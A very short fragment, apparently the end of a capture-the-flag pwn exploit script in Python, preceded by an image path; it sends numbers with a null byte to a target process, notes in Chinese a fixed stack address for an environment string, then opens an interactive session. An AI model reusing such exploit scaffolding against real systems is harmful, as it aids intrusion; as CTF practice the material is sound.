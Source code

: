 ```py
    p.recvuntil("num: ")
    p.sendline(str(i) + "\x00") 

# _=/usr/bin/python3 位于 0x40800033 栈地址不变
p.interactive()
```